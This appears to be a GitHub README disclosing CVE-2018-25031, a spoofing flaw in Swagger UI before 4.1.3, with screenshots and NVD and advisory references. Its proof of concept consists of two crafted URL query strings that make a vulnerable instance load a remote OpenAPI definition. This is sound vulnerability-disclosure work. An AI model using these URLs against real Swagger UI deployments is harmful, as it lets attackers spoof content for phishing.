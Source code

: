 

### CVE-2018-25031  
<div align="center">
<img src="https://afine.pl/wp-content/uploads/2017/06/afine2.png" align="center" style="width: 40%" />
</div>  
  



### Description:  
#### Swagger UI before 4.1.3 could allow a remote attacker to conduct spoofing attacks. By persuading a victim to open a crafted URL, an attacker could exploit this vulnerability to display remote OpenAPI definitions.

  
<br/>   
 
### Screenshot before attack:
<img src="https://github.com/afine-com/CVE-2018-25031/blob/main/1.png" align="center" style="width: 100%" />

### PoC:
```
/index.html?configUrl=https://raw.githubusercontent.com/afine-com/CVE-2018-25031/main/poc.json
/index.html?url=https://raw.githubusercontent.com/afine-com/CVE-2018-25031/main/poc.json
```

### PoC Screenshot after attack:
<img src="https://github.com/afine-com/CVE-2018-25031/blob/main/2.png" align="center" style="width: 100%" />

### References:

<a href="https://nvd.nist.gov/vuln/detail/CVE-2018-25031">https://nvd.nist.gov/vuln/detail/CVE-2018-25031</a><br>
<a href="https://deps.dev/advisory/GHSA/GHSA-cr3q-pqgq-m8c2">https://deps.dev/advisory/GHSA/GHSA-cr3q-pqgq-m8c2</a>

##### Tested on Swagger UI 3.52.1

